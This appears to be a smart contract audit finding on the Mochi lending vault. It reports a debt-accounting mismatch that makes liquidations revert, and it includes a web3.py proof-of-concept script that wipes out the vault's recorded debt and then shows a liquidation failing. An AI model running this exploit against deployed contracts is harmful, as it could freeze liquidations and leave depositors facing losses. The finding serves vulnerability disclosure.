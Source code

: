 [MochiVault.sol L242-L249](https://github.com/code-423n4/2021-10-mochi/blob/main/projects/mochi-core/contracts/vault/MochiVault.sol#L242-L249)

The contract's debt is inconsistent with the total sum of all users' debt. The bias increases overtime and would break the vault at the end.

For simplicity, we assume there's only one user in the vault.
Example:

1.  User deposits 1.2 M worth of BTC and borrows 1M USDM.
2.  The user's debt (`details[_id].debt`) would be 1.005 M as there's a .5 percent fee.
3.  The contract's debt is 1M.
4.  BTC price decrease by 20 percent
5.  The liquidator tries to liquidate the position.
6.  The liquidator repays 1.005 M and the contract tries to sub the debt by 1.005 M
7.  The transaction is reverted as `details[_id].debt -= _usdm;` would raise exception.

inaccurate accounting would lead to serious issues. I consider this a high-risk issue.

#### Proof of Concept
This is a web3.py script that a liquidation may fail.

```python
deposit_amount = 10**18
big_deposit = deposit_amount * 100000
minter.functions.mint(user, big_deposit).transact()

dai.functions.approve(vault.address, big_deposit + deposit_amount).transact()

# create two positions
vault.functions.mint(user, zero_address).transact()
vault.functions.mint(user, zero_address).transact()

# # borrow max amount
vault.functions.increase(0, big_deposit, big_deposit, zero_address, '').transact()
vault.functions.increase(1, deposit_amount, deposit_amount, zero_address, '').transact()

vault_debt = vault.functions.debts().call()

# ## This would clear out all debt in vault.
repay_amount = vault_debt + 10**18
usdm.functions.approve(vault.address, repay_amount).transact()

vault.functions.repay(0, repay_amount).transact()

print('debt left:', vault.functions.debts().call())
# ## All the positions would not be liquidated from now on

dai_price = cssr_factory.functions.getPrice(dai.address).call()
cssr_factory.functions.setPrice(dai.address, dai_price[0] // 10).transact()

## this would revert
liquidator.functions.triggerLiquidation(dai.address, 1).transact()
```
